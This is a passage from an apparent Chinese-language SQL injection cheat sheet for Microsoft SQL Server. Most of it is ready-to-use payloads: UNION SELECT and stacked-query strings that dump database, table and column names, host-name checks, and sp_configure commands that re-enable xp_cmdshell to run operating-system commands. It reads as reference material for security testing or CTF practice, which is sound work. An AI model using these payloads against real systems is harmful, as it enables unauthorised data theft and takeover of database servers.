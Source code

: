     - `IF (1=1) SELECT 'true' ELSE SELECT 'false'`
- 註解：
    - `--`
    - `/**/`
- TOP
    - MSSQL沒有`LIMIT N, M`的用法
    - `SELECT TOP 87 * FROM xxx` 取最前面87筆
    - 取第78~87筆
        - `SELECT pass FROM (SELECT pass, ROW_NUMBER() OVER (ORDER BY (SELECT 1)) AS LIMIT FROM mydb.dbo.mytable)x WHERE LIMIT between 78 and 87`
- 其它：
    - db_name()
    - user_name()
    - @@servername
    - host_name()
- 爆DB name
    - ```DB_NAME(N)```
    - ```UNION SELECT NULL,DB_NAME(N),NULL--```
    - ```UNION SELECT NULL,name,NULL FROM master ..sysdatabases--```
    - `SELECT catalog_name FROM information_schema.schemata`
    - ```1=(select name from master.dbo.sysdatabases where dbid=5)```
- 爆表名
    - `SELECT table_catalog, table_name FROM information_schema.tables`
    - `SELECT name FROM sysobjects WHERE xtype='U'`
    - `ID=02';if (select top 1 name from DBname..sysobjects where xtype='U' and name not in ('table1', 'table2'))>0 select 1--`

- 爆column
    - `SELECT table_catalog, table_name, column_name FROM information_schema.columns`
    - `SELECT name FROM syscolumns WHERE id=object_id('news')`
    - `ID=1337';if (select top 1 col_name(object_id('table_name'), i) from sysobjects)>0 select 1--`
   
- 判斷是否站庫分離
    - 客戶端主機名：`select host_name();`
    - 服務端主機名：`select @@servername; `
    - 兩者不同即站庫分離

- xp_cmdshell
    - 在MSSQL 2000默認開啟
    - MSSQL 2005之後默認關閉
    - 有sa權限，可透過sp_configure重啟它
    
    ```
    EXEC sp_configure 'show advanced options',1
    RECONFIGURE 
    EXEC sp_configure 'xp_cmdshell',1
    RECONFIGURE
    ```
    - 關閉xp_cmdshell
    
    ```
    EXEC sp_configure 'show advanced options', 1;
    RECONFIGURE;
    EXEC sp_configure'xp_cmdshell', 0;
    RECONFIGURE;
    ```
